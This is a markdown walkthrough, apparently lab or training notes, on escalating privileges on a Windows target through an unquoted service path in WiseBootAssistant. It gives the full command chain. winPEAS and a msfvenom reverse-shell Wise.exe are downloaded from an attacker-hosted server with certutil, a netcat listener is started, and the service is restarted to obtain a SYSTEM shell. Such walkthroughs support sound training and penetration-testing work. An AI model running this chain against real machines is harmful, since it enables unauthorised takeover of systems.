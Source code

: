 
#### Privilege Escalation of a vulnerable target machine(Windows):

After gaining access to the target machine, we are going to escalate our privilege to root/admin, for that we will be using a tool called 'winpeas'
	- https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- This tool helps to check in windows machine to find a possibility for privilege escalation
- We copying the winpeas.exe file from the github, we will placing the file in a folder, easier to transfter the file to the target machine.
- Once we have the file, we will hosting a server in the folder, we have the file using python
	- `python3 -m http.server 80`
- Once we have server up, we can go back to the command prompt we have opened from target machine, navigate to a folder, where the logged in user has write access/would have write access, basically it would it inside the user folder.
	- Path: C://Users/{user}
	- Use the below command, to grab the file from the python hosted server to the target machine. we will be using certutil.exe for this action.
		- `certutil.exe -urlcache -f http://{ip-address}/winpeas.exe winpeas.exe`
			- Giving winpeas.exe at the end, is to name the file as required.
			- This downloads the winpeas file to the target machine.
- After running winpeas, we have observed a program that is installed called WiseBootAssistant, which helps to identify the boot time of the machine.
- We also observe that the winpeas detected the below details:
	- `WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`
	- `YOU CAN MODIFY THIS SERVICE: AllAccess`
	- `File Permissions: Administrators [AllAccess]`
	- `Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])`
- As mentioned above that the user installed application WiseBootAssistant is auto running with no quotes and space detected. This means that the path is unquoted, so windows considers the path not an absolute path and try to execute every thing were ever there is a space. for example:
	- Windows will try to run: `C:\Program.exe` and then `C:\Program Files.exe` and then `C:\Program Files (x86).exe`  and as such, we will exploiting this to our advantage by placing an exploit in the Wise folder with Wise.exe as windows will run the path `C:\Program Files (x86)\Wise\Wise.exe` as there is a space.
	- We will be creating a exploit for reverse shell and place the exe(executable file) in the Wise folder and make the system run the file.
- Using the below command, we will create a exploit exe file with msfvenom.
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST={Attacker_IP_Address} LPORT=7777 -f exe > Wise.exe`
	- Any port can be used
- Once the exe is generated, place it in the transfers folder or the path were the python server is being hosted and start the python server.
- Open a new command prompt in attacker machine and start the netcat for the port 7777 or which ever its provided.
	- `nc -nvlp 7777`
- Now go back to the target machine's exploited command prompt and go to the path `C:\Program Files (x86)\Wise` and run the certutil command again to grab the Wise.exe exploit and place it in the Wise folder.
- Now if we run the Wise.exe it will provide us with the command prompt with the same user permissions, who ran the file, which we don't require.
- To get the system access, system should run the exe file and provide the reverse shell with system privileges, to do that, we will stop the service and start it again, so system runs the Wise.exe file and provide system access.
	- `sc stop WiseBootAssistant` - Stop the service
	- `sc query WiseBootAssistant` - Query and check the status of the service
	- `sc start WiseBootAssistant` - Start the service.
- Once the service start command is executed, we will be granted with the command shell in attacker's machine in the netcat 7777 with the system privileges.
- Once we have the access, we can check the below commands:
	- `whoami`
	- `systeminfo`